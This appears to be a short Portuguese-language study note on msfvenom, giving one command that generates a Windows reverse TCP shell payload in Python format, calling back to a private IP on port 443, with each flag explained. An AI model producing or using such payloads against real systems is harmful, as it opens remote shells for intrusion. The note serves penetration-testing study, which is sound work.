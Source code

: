 # MSFVENOM

O msfvenom é utilizado para criação de exploit.

Criando um exploit para Windows:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```
windows/shell_reverser_tcp ==> Tipo do exploit.
LHOST ==> IP de conexão reversa.
LPORT ==> Porta de conexão reversa.
-b "\x00\x0a\x0d\x20" ==> Bad caracteres ou caracteres inválidos.
-f python ==> Linguagem que vai ser gerado o exploit.
EXITFUNC=thread ==> Evita que a aplicação morra depois do exploit ser fechado.
